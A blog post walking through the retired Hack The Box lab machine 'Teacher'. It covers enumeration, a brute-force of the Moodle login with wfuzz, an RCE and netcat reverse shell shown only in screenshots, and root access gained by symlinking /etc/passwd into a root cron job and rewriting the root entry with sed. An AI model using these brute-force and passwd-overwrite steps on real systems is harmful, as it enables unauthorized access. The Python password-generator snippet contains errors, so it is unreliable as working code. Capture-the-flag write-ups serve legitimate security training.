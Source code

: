 ```yaml
---
layout: post
title: "Teacher: Hack The Box Walkthrough"
date: 2019-04-21 02:33:27 +0000
last_modified_at: 2019-04-21 02:33:57 +0000
category: Walkthrough
tags: ["Hack The Box", Teacher, retired]
comments: true
image:
  feature: teacher-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/baby-sitter-children-educator-nanny-1073411/
---
```


This post documents the complete walkthrough of Teacher, a retired vulnerable [VM][1] created by [Gioo][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Teacher is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.153
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

`nmap` finds `80/tcp` open. Let's go with that.

## Directory/File Enumeration

Based on my experience, it's always good to run some kind of fuzzing when faced with a lack of hints. Let's run `wfuzz` and SecList's `common.txt`, and see what we can find.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://10.10.10.153/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/FUZZ
Total requests: 4593

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000010:  C=403     11 L	      32 W	    291 Ch	  ".hta"
000011:  C=403     11 L	      32 W	    296 Ch	  ".htaccess"
000012:  C=403     11 L	      32 W	    296 Ch	  ".htpasswd"
001232:  C=301      9 L	      28 W	    310 Ch	  "css"
001735:  C=301      9 L	      28 W	    312 Ch	  "fonts"
002067:  C=301      9 L	      28 W	    313 Ch	  "images"
002094:  C=200    249 L	     747 W	   8028 Ch	  "index.html"
002218:  C=301      9 L	      28 W	    317 Ch	  "javascript"
002250:  C=301      9 L	      28 W	    309 Ch	  "js"
002497:  C=301      9 L	      28 W	    313 Ch	  "manual"
002627:  C=301      9 L	      28 W	    313 Ch	  "moodle"
002995:  C=403     11 L	      32 W	    297 Ch	  "phpmyadmin"
003597:  C=403     11 L	      32 W	    300 Ch	  "server-status"

Total time: 47.61103
Processed Requests: 4593
Filtered Requests: 4580
Requests/sec.: 96.46924
```

The site is running Moodle. [Moodle](https://github.com/moodle/moodle) is the world's open source learning platform. Moodle has its fair share of SQLi and RCE vulnerabilities but would require authenticated access.

<a class="image-popup">
![d31325ca.png](/assets/images/posts/teacher-htb-walkthrough/d31325ca.png)
</a>

While I was hunting around for a credential, something caught my eye at the Teacher's gallery page.

<a class="image-popup">
![7f34d280.png](/assets/images/posts/teacher-htb-walkthrough/7f34d280.png)
</a>

I got double F's! Something funky is going on here...

<a class="image-popup">
![0cf66884.png](/assets/images/posts/teacher-htb-walkthrough/0cf66884.png)
</a>

`5.png` is not an image. It's a text file.

<a class="image-popup">
![51d6ef0b.png](/assets/images/posts/teacher-htb-walkthrough/51d6ef0b.png)
</a>

Gotcha!

It's easy to generate a password list for brute-forcing the Moodle login form. You can do it with Python like so.

```python
import string

charset = string.ascii_letters + string.digits + string.punctuations

f = open('passwords.txt', 'w')
s = Th4C00lTheacha
t = ''

for c in charset:
  t += s + c + '\n'

f.write(t)
f.close()
```

Once the password list is generated, we can use `wfuzz` to brute-force it.

```
# wfuzz -w passwords.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 17.72110
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 5.304409
```

The credential is (`giovanni:Th4C00lTheacha#`).

<a class="image-popup">
![ca2fc9fc.png](/assets/images/posts/teacher-htb-walkthrough/ca2fc9fc.png)
</a>

## Low-Privilege Shell

Following the instructions from this [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/), I was able to execute a reverse shell back to me.

First, create a calculated question like so.

<a class="image-popup">
![4cd4b5a0.png](/assets/images/posts/teacher-htb-walkthrough/4cd4b5a0.png)
</a>

Create the formula like so.

<a class="image-popup">
![ef16f0d5.png](/assets/images/posts/teacher-htb-walkthrough/ef16f0d5.png)
</a>

Then execute remote commands on the host to run a reverse shell back to me using `nc`.

<a class="image-popup">
![213a07a8.png](/assets/images/posts/teacher-htb-walkthrough/213a07a8.png)
</a>

There you have it, a low-privilege shell.

<a class="image-popup">
![400efef7.png](/assets/images/posts/teacher-htb-walkthrough/400efef7.png)
</a>

Let's upgrade our shell with a pseudo-TTY using Python and then `stty raw -echo; fg; reset`.

## Privilege Escalation

I'm aware that Moodle connects to a database backend to store all the good stuff. The database settings are in `config.php` at the Moodle directory.

<a class="image-popup">
![30e91902.png](/assets/images/posts/teacher-htb-walkthrough/30e91902.png)
</a>

Let's connect to the database.

<a class="image-popup">
![b4d16fec.png](/assets/images/posts/teacher-htb-walkthrough/b4d16fec.png)
</a>

Cracking the MD5 hash is easy.

<a class="image-popup">
![1dc2b446.png](/assets/images/posts/teacher-htb-walkthrough/1dc2b446.png)
</a>

This is the password to `giovanni`'s account. `user.txt` is in the home directory.

<a class="image-popup">
![2a856c44.png](/assets/images/posts/teacher-htb-walkthrough/2a856c44.png)
</a>

During enumeration of `giovanni`'s account, I noticed the pressence of `work` directory and `/usr/bin/backup.sh` referred to it.

<a class="image-popup">
![dc87e44b.png](/assets/images/posts/teacher-htb-walkthrough/dc87e44b.png)
</a>

If I had to guess, I would say this is inside a `cron` job ran with `root` privileges since `giovanni` has no permissions to edit it.

But, look at the last line. It changes the permissions of any file to `rwxrwxrwx`. What if I put a symbolic link to `/etc/passwd` in it?

<a class="image-popup">
![39075b90.png](/assets/images/posts/teacher-htb-walkthrough/39075b90.png)
</a>

Boom! Anyone can edit `/etc/passwd`. Let's give ourselves `root` access.

```
$ sed -r '1h;x;2s/root:x/toor:to5bce5sr7eK6/' /etc/passwd > /tmp/passwd
$ cp /tmp/passwd /etc/passwd
```

<a class="image-popup">
![7a326bec.png](/assets/images/posts/teacher-htb-walkthrough/7a326bec.png)
</a>

With a `root` shell, getting `root.txt` is a breeze.

<a class="image-popup">
![f6295439.png](/assets/images/posts/teacher-htb-walkthrough/f6295439.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/165
[2]: https://www.hackthebox.eu/home/users/profile/623
[3]: https://www.hackthebox.eu/
